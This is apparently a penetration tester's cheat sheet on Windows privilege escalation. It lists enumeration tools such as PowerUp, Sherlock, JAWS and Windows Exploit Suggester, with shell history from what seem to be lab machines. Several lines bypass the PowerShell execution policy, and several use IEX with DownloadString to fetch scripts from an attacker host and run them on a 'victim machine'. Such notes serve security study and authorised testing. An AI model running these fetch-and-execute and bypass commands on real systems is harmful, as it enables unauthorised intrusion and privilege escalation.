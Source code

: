 ###Service
```
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
./accesschk.exe -ucqv -accepteula UsoSvc 
```


https://github.com/gtworek/Priv2Admin

https://github.com/frizb/Windows-Privilege-Escalation
AMSI PATCH
https://recipeforroot.com/advanced-powerup-ps1-usage/

###powershell with Priv checker
```
powershell -ep bypass
PS C:\> Import-Module PowerUp.ps1

PS C:\> . .\PowerUp.ps1
```
![image](https://user-images.githubusercontent.com/9059079/118397345-7f3fdd80-b621-11eb-805e-df3757f8e371.png)

```


PS C:\Users\merlin\Desktop> PS C:\Users\merlin\Desktop> powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"
PS C:\users\merlin\appdata\local\temp> iex(new-object net.webclient).downloadstring('http://10.10.14.5/Sherlock.ps1')
PS C:\users\merlin\appdata\local\temp> Find-AllVulns

c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/PowerUp.ps1') ; Invoke-AllChecks"

c:\>powershell.exe -ExecutionPolicy Bypass -noLogo -Command "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/powerup.ps1') ; Invoke-AllChecks"

c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/Sherlock.ps1') ; Find-AllVulns"

If you have your ps1 file downloaded to the victim machine then run using this
c:\>powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"

c:\>powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
```
#
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.124:8111/Sherlock.ps1'); Find-AllVulns

Post Exploit Enum Scripts:
JAWS - Just Another Windows (Enum) Script
```
\Inetpub>icacls wwwroot
```
Usage:

Run from within CMD shell and write out to file.

powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://10.10.15.24/jaws.ps1','C:\Windows\temp\jaws.ps1')
CMD C:\Windows\temp> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
Run from within CMD shell and write out to screen.

CMD C:\temp> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1
Run from within PS Shell and write out to file.

PS C:\temp> .\jaws-enum.ps1 -OutputFileName Jaws-Enum.txt
WinPrivCheck by ihack4falafel

Sherlock – New one is Watson
```
PS C:\inetpub\drupal-7.54> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.124:8000/Sherlock.ps1') ; Find-AllVulns
C:\inetpub\drupal-7.54>powershell.exe -ExecutionPolicy Bypass -File jaws-enum.ps1
```
PentestMonkey Windows-privesc-check is standalone executable that runs on Windows systems. It tries to find misconfigurations that could allow local unprivileged users to escalate privileges to other users or to access local apps (e.g. databases).

Exploit Suggester For this one, we need to grab the output of systeminfo and then run it against the script. -- Update the database: ./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2018-10-28-mssb.xlsx --systeminfo winsysinfo.txt
OR
-- If we only know about the Operating System name and not much about the hot-fixes, then possible exploits for an operating system can be used without hotfix data
```
./windows-exploit-suggester.py --database 2018-10-28-mssb.xlsx --ostext 'windows server 2008 r2'
```
```
wmic qfe get Caption,Description,HotFixID,InstalledOn

https://guide.offsecnewbie.com/privilege-escalation/windows-pe
```
